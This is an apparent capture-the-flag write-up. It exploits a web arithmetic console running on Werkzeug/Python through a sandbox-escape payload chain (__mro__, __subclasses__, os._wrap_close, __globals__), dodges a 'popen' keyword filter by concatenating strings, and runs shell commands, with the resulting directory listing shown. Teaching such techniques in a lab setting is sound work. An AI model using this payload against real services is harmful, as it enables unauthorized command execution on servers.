




In this challenge we meet some console where we can calculate arethmatic expressions.



Later, I checked the HTTP headers, and saw we got:
```bash
Server: Werkzeug/3.0.1 Python/3.11.14
```

So, this is probably some template engine generating the code, or maybe eval or something.
I tried to give `''.__class__` and got back `<class 'str'>`.

Now, we want to chain it, first we starts with `str` -> `class of str`.
Then, we move to `''.__class__.__mro__`, and get `(<class 'str'>, <class 'object'>)`. 



I want the `object`, so we'll take the second index `''.__class__.__mro__[1]`, and we get: `<class 'object'>`

Now, After we reached the final object, we can access the `__subclassses__` to get all classes that inherits from object:
```py
''.__class__.__mro__[1].__subclasses__()
```



and we get back long list, at location 141 we can find `<class 'os._wrap_close'>`:
```py
[<class 'type'>, 
<class 'async_generator'>, 
<class 'bytearray_iterator'>, 
....... , 
<class 'os._wrap_close'>, 
....... , 
<class 'flask.sessions.SessionInterface'>, 
<class 'flask.sansio.blueprints.BlueprintSetupState'>]
```

Okay, let's grab this class `os`, and go directly to the `__init__.__globals__` which is the namespace. I used this class based on google, found this writeup [https://ctftime.org/writeup/25816](https://ctftime.org/writeup/25816):
```py
''.__class__.__mro__[1].__subclasses__()[141].__init__.__globals__
```

Now, we got list of functions, I found the function `popen`, let's use it:



We can't use on the regular way like `.popen()`, becuase it's being blocked by some filtering, so let's bypass this, using `["po"+"pen"]`:
```py
''.__class__.__mro__[1].__subclasses__()[141].__init__.__globals__["po"+"pen"]("ls -la").read()
```


and the response:
```bash
total 36
drwxr-xr-x 1 coil coil 4096 Jan 19 14:55 .
drwxr-xr-x 1 root root 4096 Feb  8 09:17 ..
-rw-rw-r-- 1 coil coil  129 Jan 19 14:54 .dockerignore
-rw-rw-r-- 1 coil coil  580 Jan 19 14:54 Dockerfile
-rw-rw-r-- 1 coil coil 5146 Jan 19 14:54 app.py
-rw-rw-r-- 1 coil coil   20 Jan 19 14:54 flag.txt
-rw-rw-r-- 1 coil coil   78 Jan 19 14:54 requirements.txt
drwxrwxr-x 1 coil coil 4096 Jan 19 14:54 templates
```

In order to read, we'll simply execute the command `cat flag.txt`, same as `ls -la`.